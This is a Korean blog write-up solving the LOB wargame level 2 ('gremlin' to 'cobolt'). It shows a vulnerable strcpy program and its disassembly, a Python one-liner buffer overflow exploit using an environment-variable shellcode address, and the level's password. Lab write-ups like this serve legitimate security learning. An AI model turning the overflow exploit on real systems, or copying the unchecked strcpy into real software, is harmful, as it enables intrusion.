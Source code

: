 ```yaml
---
date: '2022-10-12'
before : '2022-10-11'
after : '2022-10-13'
title: 'FTZ LOB LEVEL 2'
categories: ['C-SEC', 'KOR','PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에


사실 이번 문제도.. 그냥 기본 BOF문제이다. 딱히 설명할 건 없어서 그냥 빠르게 풀이하도록 하겠다. 


모르는 걸 물어보는건 죄가 아니지만, FTZ 시리즈로 글을 쓴 것만 읽어봐도 "버퍼오버플로우가 뮈예요?" 같은 의문들은 해결된다고 생각한다..ㅠㅠ (나도 초보자중에 쌩초보다..)


### 1. Level 2 : Gremlin -> Cobolt

바로 소스코드와 어셈블리 코드를 분석해보자.

```
int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

```
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,16
0x8048436 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804843a <main+10>:    jg     0x8048453 <main+35>
0x804843c <main+12>:    push   0x80484d0
0x8048441 <main+17>:    call   0x8048350 <printf>
0x8048446 <main+22>:    add    %esp,4
0x8048449 <main+25>:    push   0
0x804844b <main+27>:    call   0x8048360 <exit>
0x8048450 <main+32>:    add    %esp,4
0x8048453 <main+35>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048456 <main+38>:    add    %eax,4
0x8048459 <main+41>:    mov    %edx,DWORD PTR [%eax]
0x804845b <main+43>:    push   %edx
0x804845c <main+44>:    lea    %eax,[%ebp-16]
0x804845f <main+47>:    push   %eax
0x8048460 <main+48>:    call   0x8048370 <strcpy>
0x8048465 <main+53>:    add    %esp,8
0x8048468 <main+56>:    lea    %eax,[%ebp-16]
0x804846b <main+59>:    push   %eax
0x804846c <main+60>:    push   0x80484dc
```

앗 그리고, LOB 환경에서는 우리가 주소를 쓸 떄 사용하는 \xff를 x00으로 인식해 버퍼오버플로우가 안되는 오류(는 아니고, 그냥 리눅스 서버 특정 버전의 특징이다.) 가 있다. 따라서 꼭 BOF 공격 코드를 넣기 전에 bash2명령어를 입력한 후 넣도록 하자!


이번에도 환경 변수는 사용 가능하니 EGG를 만들어서 주소를 확인하자.




환경 변수와 그에 따른 익스플로잇 : 
```
0xbffffdc2
./cobolt `python -c 'print "A"*20 + "\xfc\xfe\xff\xbf"'`
```

비밀번호 : hacking exposed

---
## Source

- 해커스쿨 FTZ
- Me!












